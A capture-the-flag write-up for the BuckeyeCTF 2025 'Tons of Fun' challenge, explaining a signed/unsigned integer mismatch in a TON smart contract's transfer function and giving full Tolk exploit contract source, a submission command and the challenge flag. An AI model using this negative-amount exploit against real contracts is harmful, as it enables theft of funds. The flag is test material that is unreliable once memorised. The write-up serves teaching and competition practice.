

## BuckeyeCTF 2025 - Tons of Fun Write-up


### Step 1: Smart Contract Analysis

The challenge provides a smart contract on the TON blockchain, written in the Tolk language. The goal is to force the contract to emit a `SuccessLogMessage` to receive the flag.

By reviewing the source code in `tons_of_fun.tolk`, we can see that the `SuccessLogMessage` is only sent when the `CheckBalance` function is called, and only if the caller's (`sender`) balance is greater than or equal to the `BALANCE_FOR_FLAG` constant.

```tolk
// From tons_of_fun.tolk
const BALANCE_FOR_FLAG : uint256 = 10000 * CONVERSION_RATE * TON_TO_NANO; // 1,000,000,000,000,000

fun onCheckBalance(in: InMessage) {
    // ...
    val balance = self.balances.get(sender);
    if (balance >= BALANCE_FOR_FLAG) {
        // Sends the success message
        OutMessage.new(/*...*/).send();
    }
}
```

The `BALANCE_FOR_FLAG` is an enormous number (effectively 1,000,000 TON), which is impossible to acquire through legitimate deposits. This indicates that a vulnerability must exist to artificially inflate an account's balance.

### Step 2: Vulnerability Discovery (Integer Underflow/Overflow)

The vulnerability is located in the `TransferFunds` function and stems from a critical data type mismatch. While account balances are stored as `uint256` (unsigned integers), the transfer amount in the `TransferFunds` struct is defined as `int256` (signed integer).

```tolk
// From interface.tolk
struct (0x20000002) TransferFunds {
    recipient: address
    amount: int256 // <-- Signed type!
}
```

This leads to a flaw in the fund transfer logic:

```tolk
// From tons_of_fun.tolk
fun onTransferFunds(in: InMessage, msg: TransferFunds) {
    // ...
    val from_balance = self.balances.get(sender);
    assert (from_balance >= msg.amount); // (1) Flawed check
    // ...
    self.balances.set(sender, from_balance - msg.amount); // (2) Vulnerable arithmetic
    // ...
}
```

1.  **Flawed Check:** The comparison between an unsigned integer (`from_balance`) and a signed one (`msg.amount`) is faulty. If we send a large negative number as the `amount`, the condition `from_balance >= msg.amount` will always evaluate to true for any existing account with a positive balance.
2.  **Vulnerable Arithmetic:** In the line `from_balance - msg.amount`, subtracting a negative number is equivalent to adding a positive one. By sending a "transfer" of `-X`, we can actually **increase** our own balance by `X`.

This is a classic integer overflow vulnerability that allows us to set our balance to any value we want.

### Step 3: Crafting the Exploit

To exploit this, we create a custom smart contract (`exploit.tolk`) that performs three actions in a single transaction sequence:

1.  **Create Account:** Send a `CreateAccount` message to the target contract. This is necessary to register our address in its balance ledger with a small, non-zero balance.
2.  **Execute Attack:** Send a `TransferFunds` message. For the `amount`, we pass the negative value of `BALANCE_FOR_FLAG`. This abuses the vulnerability to increase our own balance by the exact amount required to get the flag.
3.  **Claim Flag:** Send a `CheckBalance` message. Since our balance now exceeds the threshold, the target contract emits the `SuccessLogMessage`, and the server rewards us with the flag.

**Final Exploit Code (`contracts/exploit.tolk`):**
```tolk
import "interface.tolk";

tolk 1.1

struct (0xDEADBEEF) Run {
    target: address
    admin: address
}

fun run(target: address, admin: address) {
    // 1. Create the account
    val msg1 = createMessage({
        dest: target,
        value: (TON_TO_NANO / 100) as coins,
        bounce: false,
        body: CreateAccount{}.toCell()
    });
    msg1.send(1);

    // 2. Attack using the negative amount
    val msg2 = createMessage({
        dest: target,
        value: (TON_TO_NANO / 100) as coins,
        bounce: false,
        body: TransferFunds{
            recipient: admin,
            amount: -(BALANCE_FOR_FLAG as int256)
        }.toCell()
    });
    msg2.send(1);

    // 3. Check balance to receive the flag
    val msg3 = createMessage({
        dest: target,
        value: (TON_TO_NANO / 100) as coins,
        bounce: false,
        body: CheckBalance{}.toCell()
    });
    msg3.send(1);
}

fun onInternalMessage(in: InMessage) {
    val msg = lazy Run.fromSlice(in.body);
    match (msg) {
        Run => {
            run(msg.target, msg.admin);
        }
        else => {
            assert (in.body.isEmpty()) throw ERROR_CODES.ERROR_WRONG_OPCODE;
        }
    }
}

fun onBounceMessage(in: InMessageBounced) {}
```

### Step 4: Execution

With the exploit contract in place, we run the submit script against the remote server to compile and deploy it.

```bash
npm run submit https://tons-of-fun.challs.pwnoh.io
```



### Flag
`bctf{c4nt_g3t_0ff_th3_crypt0_r0ll3r_c0ast3r}`